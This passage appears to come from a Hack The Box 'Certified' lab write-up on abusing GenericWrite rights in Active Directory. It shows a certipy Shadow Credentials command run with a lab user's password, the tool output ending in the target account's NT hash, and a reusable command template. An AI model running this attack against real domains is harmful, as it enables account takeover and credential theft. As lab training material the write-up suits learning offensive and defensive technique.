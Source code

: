The members of the group MANAGEMENT@CERTIFIED.HTB have generic write access to the user MANAGEMENT_SVC@CERTIFIED.HTB.

Generic Write access grants you the ability to write to any non-protected attribute on the target object, including "members" for a group, and "serviceprincipalnames" for a user

![[Pasted image 20241110204524.png]]



```bash
garffff@garffff:~/htb/certified$ certipy shadow auto -u judith.mader@certified.htb -p judith09 -account management_svc
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '92b4d02c-c7c2-c1ba-cd05-9cd1ca224681'
[*] Adding Key Credential with device ID '92b4d02c-c7c2-c1ba-cd05-9cd1ca224681' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '92b4d02c-c7c2-c1ba-cd05-9cd1ca224681' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```

### Summary

```bash
certipy shadow auto -u <username>@<domain> -p <password> -account <target_account>
```